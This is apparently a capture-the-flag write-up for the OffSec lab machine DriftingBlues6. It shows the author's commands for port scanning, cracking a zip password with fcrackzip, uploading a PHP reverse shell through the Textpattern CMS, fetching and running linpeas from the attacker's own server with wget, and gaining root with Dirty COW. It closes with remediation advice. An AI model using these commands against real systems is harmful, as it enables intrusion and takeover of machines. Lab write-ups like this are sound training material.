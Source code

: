 OffSec <br>
DriftingBlues6
---

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/653a0bcc-9557-4296-9a0d-5a7ec14b5611)

# Reconnaissance/Scanning:
Let’s start things off with a network scan to see which ports are open and the services running on each.
```
$ nmap -A -O -sC -sV -p- <machine_IP>
```
![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/f41a4548-0fa6-4435-88bb-b1e239832649)

Viewing the robots text file first I found:

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/5a816696-66ba-44ca-a084-ad34a93369a4)

I ran a few gobuster scans to find any other directories that might be hidden/of interest and added the .zip extension.
 
![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/f8729282-36c5-4eac-b908-c97eabb9a0bd)

Scan of /textpattern

 ![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/020db065-daa0-49c6-a978-26c6f4cae0dc)

Scan of /textpattern/textpattern

 ![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/96ad00c8-215e-4025-9c98-3a1ec2bddd4c)

Checking the README text file, I found the version of textpattern running.

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/8d4ab872-2d4c-4574-b25c-1ca9ee70a361)
 
Since I have the version of the CMS (content Management System) I’ll check for exploits.
```
$ searchsploit textpattern 4.8.3
```
![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/ac47419e-4884-43e2-9b01-3229fc2790fa)
 
In order to run the exploits, I need user credentials, so I need to find those. <br>
Getting back to the zip file I found, when trying to unzip it I was prompted for a password. <br>
To crack that password I used the tool fcrackzip.
```
$ fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u spammer.zip
```
Found the password!

 ![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/0ebe5f8b-a174-4fba-99a1-46b0f5646ea9)

Upon unzipping the file, there was a text file inside named “creds.txt”
 
![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/5a6afc6b-15a0-49ce-a946-8cb9d03c97ed)

# Initial foothold:
Awesome, now I can try to use the exploit and try to login the CMS to poke around on it. <br>
An upload area, yes! That means i’ll be trying to upload a reverse shell.

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/564abf64-2e61-4026-922f-60c94545e321)
 
Navigating to Content > Files > Upload to get the script on the server. You can see my shell uploaded as shell.php

 ![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/4b0d09fd-7063-4725-a738-91b6ea11816b)

That’s where I’ll visit to call my reverse shell.

After uploading and visiting the page, I get my reverse shell!

 ![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/7fd8e6e8-101c-4e03-8e9a-e7e8bbe47e44)

After spending what I thought was too much time looking for a way to escalate my privileges  <br>
by checking cronjobs, numerous directories, and files without any luck  <br>
I uploaded linpeas on the server to help me find what I was missing.
```
# I started a python server on my machine
$ python3 -m http.server <PORT>

# then I used wget to grab the script to the target machine
$ wget hxxp://<IP>:<PORT>/path/to/file

# after successfully getting the script change permissions to execute
$ chmod 777 linpeas.sh

# execute the script
$ ./linpeas.sh
```
*NOTE: to be able to get the file successfully on the target machine make sure to be in a writable directory such as /tmp* <br>

# Exploit:
It’s showing that the machine is potentially vulnerable to CVE-2016–5195 which is the “dirty cow” kernel exploit.  <br>
Info found <a href=https://dirtycow.ninja/>here.</a>
```
"A race condition was found in the way the Linux kernel's memory subsystem 
handled the copy-on-write (COW) breakage of private read-only memory mappings. 
An unprivileged local user could use this flaw to gain write access to 
otherwise read-only memory mappings and thus increase their privileges on the 
system."
```
Here’s a snippet via exploit-db[.]com from the code on how to be able to run it.

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/7a2e0edb-0a72-46c2-b34b-ca70c8c282ee)
 
After downloading the script and following the directions to execute it.

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/cbfdade8-6b34-40e3-b293-f19284def466)
 
The new user with root privileges is made via the script and now I can escalate to that user.

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/6fb8fec0-8f81-471d-ac3d-0abd31bcc0dc)
 
Finally, I can grab the root flag!

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/c5eecf02-4b7d-4e8e-ba22-6286a645554c)

# Reporting:
•	Be sure to use strong passwords on files or even a password manager to help generate and store the password. <br>
•	Keep all software and hardware patched and up to date with the latest security releases to prevent vulnerabilities. <br>
•	Data sanitization and file content checking on anything that can be posted/uploaded needs to be in place.












































